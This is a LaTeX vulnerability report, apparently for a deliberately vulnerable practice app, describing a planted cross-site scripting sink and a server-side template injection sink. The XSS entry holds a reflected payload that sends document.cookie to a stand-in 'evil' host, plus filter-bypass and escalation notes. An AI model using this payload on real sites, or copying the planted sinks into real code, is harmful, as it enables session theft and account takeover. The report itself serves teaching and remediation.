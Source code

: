 \documentclass[11pt,a4paper]{article}
\begin{document}
\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-13: CWE-79: Cross-Site Scripting}
\noindent\textbf{Location:} \texttt{src/vulnapp/web\_vulns.py}, line 18 \quad \textbf{Rule:} \texttt{python/cross-site-scripting} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/79.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return Response(html, mimetype="text/html")
\end{lstlisting}
\noindent\textbf{What it is.} Cross-site scripting: untrusted input is reflected into HTML/JS without encoding.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Reflected: `?q=<script>document.location='//evil/'+document.cookie</script>` to steal sessions.
\item Use event handlers/`<img onerror>` when `<script>` is filtered.
\item Escalate to keylogging, CSRF token theft, or full account takeover.
\end{itemize}
\noindent\textbf{Remediation.} Context-aware output encoding (HTML/attr/JS/URL); use a template engine that auto-escapes and set CSP.

\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-14: CWE-1336: Server-Side Template Injection}
\noindent\textbf{Location:} \texttt{src/vulnapp/web\_vulns.py}, line 23 \quad \textbf{Rule:} \texttt{python/server-side-template-injection} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/1336.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return render_template_string("Hello " + template_src)
\end{lstlisting}
\noindent\textbf{What it is.} Server-Side Template Injection: input becomes part of a template.
\end{document}
